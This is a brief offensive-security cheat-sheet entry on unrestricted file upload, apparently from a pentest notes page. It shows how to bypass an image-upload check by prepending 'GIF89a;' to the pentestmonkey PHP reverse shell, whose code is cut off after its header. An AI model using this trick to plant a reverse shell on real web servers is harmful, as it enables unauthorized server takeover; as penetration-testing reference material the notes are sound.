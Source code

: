 # Unrestricted File Upload

### Scenarios

#### Blog comment where you can upload a photo

Copy php-reverse-shell.php file and insert `GIF89a;` at the top of it:

```bash
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```





